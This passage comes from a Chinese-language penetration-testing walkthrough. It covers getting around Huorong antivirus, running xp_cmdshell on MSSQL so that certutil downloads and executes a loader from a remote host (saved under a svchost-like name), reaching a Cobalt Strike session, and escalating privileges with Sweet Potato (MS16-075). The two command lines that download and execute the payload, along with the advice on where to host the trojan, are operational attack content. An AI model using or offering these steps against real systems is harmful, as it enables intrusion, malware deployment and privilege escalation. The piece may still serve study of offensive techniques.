 做一下火绒的免杀，尝试上线，使用 windows 的 certutil 命令远程下载文件

```bash
EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.8.198/loader.exe C:\Windows\Temp\schost.exe'; 
EXEC master..xp_cmdshell 'C:\Windows\Temp\schost.exe';
```

漏洞利用：

[![](assets/1705301733-3ed88f036cf6b17e1cb28fb6422caa09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140700-cccf488c-b110-1.png)

成功上线 cs

[![](assets/1705301733-9cc2e02234a97aa0a201f47fece4c2c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140711-d2f93682-b110-1.png)

如果目标机器出网，可以把木马放到自己的公网服务器上，如果目标机器不出网，只需把木马放到 12server-web1 上，供其下载

### **权限提升**

使用 MS16-075Sweet Potato 进行提权

[![](assets/1705301733-d598805cd576ac6e4379c72c97f76227.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140726-dbdace78-b110-1.png)

漏洞利用

[![](assets/1705301733-c5383b7fd47193689b57df18fda36188.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140736-e1e3090c-b110-1.png)
